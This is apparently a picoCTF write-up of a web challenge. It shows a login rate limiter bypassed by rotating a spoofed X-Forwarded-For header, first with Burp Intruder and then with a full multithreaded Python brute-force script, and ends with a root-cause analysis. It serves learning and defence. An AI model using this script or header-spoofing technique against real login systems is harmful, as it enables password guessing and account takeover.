

# Crack the Gate 2-PicoMini

---

### Web exploitation - Medium

---

#### Description:

#### The login system has been upgraded with a basic rate-limiting mechanism that locks out repeated failed attempts from the same source. We’ve received a tip that the system might still trust user-controlled headers. Your objective is to bypass the rate-limiting restriction and log in using the known email address: **`ctf-player@picoctf.org`** and uncover the hidden secret.

---

- The first thing I see when accessing the application is a login form.
    
    
    
- Viewing its page source, I see a script for submitting credential to `/login` , this script is just to prevent the browser's default form submission behavior (which would reload the page) in order to handle it via JavaScript instead of the traditional submission method.
    
    
    
- Here is the password file which only contains 20 lines. (Do we even need to use intruder or any python script ???).
    
    
    
- Then I test the rate-limit and find that after only 1 failed attempt, the next request gets blocked for 20 mins.
    
    
    
- By adding the `X-Forwarded-For`header, I can now send another request without waiting. (IP rate-limit).
    
    
    
- So I send the request to `Intruder` , then change the attack type to `Pitchfork` :
    - For the `X-Forwarded-For` position, I use payload type `numbers` in range 2-21, because 1 has already been used for testing.
        
        
        
    - And with password position, just need to paste the entire password file and that’s it.
        
        
        
- Then start the attack, and I got the flag in no time (even with Burp Community).
    
    
    
- But how about the scenario where the password file contains millions of lines ? I also create a Python script (AI assisted) to use when needed:
    
    ```python
    import requests
    import threading
    import queue
    
    URL = "http://amiable-citadel.picoctf.net:[PORT]/login"
    EMAIL = "ctf-player@picoctf.org"
    WORDLIST = "passwords.txt"
    THREADS = 30
    
    headers = {
        "Content-Type": "application/json",
        "Origin": "http://amiable-citadel.picoctf.net:[PORT]",
        "Referer": "http://amiable-citadel.picoctf.net:[PORT]/",
    }
    
    q = queue.Queue()
    for line in open(WORDLIST):
        pw = line.strip()
        if pw:
            q.put(pw)
    
    found = None
    ip_counter = 0
    lock = threading.Lock()
    stop_event = threading.Event()
    
    def next_ip():
        global ip_counter
        with lock:
            ip_counter += 1
            n = ip_counter
        # covers full 32-bit space (~4 billion), wraps if ever exceeded
        a = (n >> 24) % 256
        b = (n >> 16) % 256
        c = (n >> 8) % 256
        d = n % 256
        return f"{a}.{b}.{c}.{d}"
    
    def worker():
        global found
        while not q.empty() and not stop_event.is_set():
            pw = q.get()
    
            h = headers.copy()
            h["X-Forwarded-For"] = next_ip()
    
            r = requests.post(URL, json={"email": EMAIL, "password": pw}, headers=h)
    
            if "false" not in r.text.lower():
                found = pw
                stop_event.set()
                print(f"[+] FOUND: {pw}")
                print(r.text)
            else:
                print(f"[-] tried: {pw}")
    
    threads = [threading.Thread(target=worker) for _ in range(THREADS)]
    for t in threads:
        t.start()
    for t in threads:
        t.join()
    
    if not found:
        print("[-] not found")
    
    ```
    
- Here’s the result. Although I set a stop flag, it still shows all the attempts because using 30 threads for only 20 passwords is…overwhelming, making the stop flag doesn’t even have a chance to trigger.
    
    
    
- Root cause:
    - Rate limiter trusts the client-supplied X-Forwarded-For header as the
    identity key for tracking failed attempts, instead of the actual TCP source
    address. Since this header is fully attacker-controlled and never validated
    against a trusted proxy chain, every request can present a different
    "source" simply by changing one header value, making the rate limit
    trivially bypassable, an attacker doesn't even need a fresh IP, only a new
    string.
    - No allowlist of trusted proxies: a correct setup would only honor
    X-Forwarded-For when the request originates from a known reverse proxy/load
    balancer, and would take the first untrusted hop as the real client IP
    regardless of what the header claims. Here the app takes the header at
    face value from any direct connection, collapsing "which proxy forwarded
    this" and "who is making requests" into one unverifiable field.
    - Weak password list compounds the impact, with only 20 candidate passwords,
    even a manual Intruder run without automation finishes in seconds once the
    rate limit is bypassed; the header-trust bug is what makes brute-forcing
    possible at all, but the small credential space is what makes it trivial.
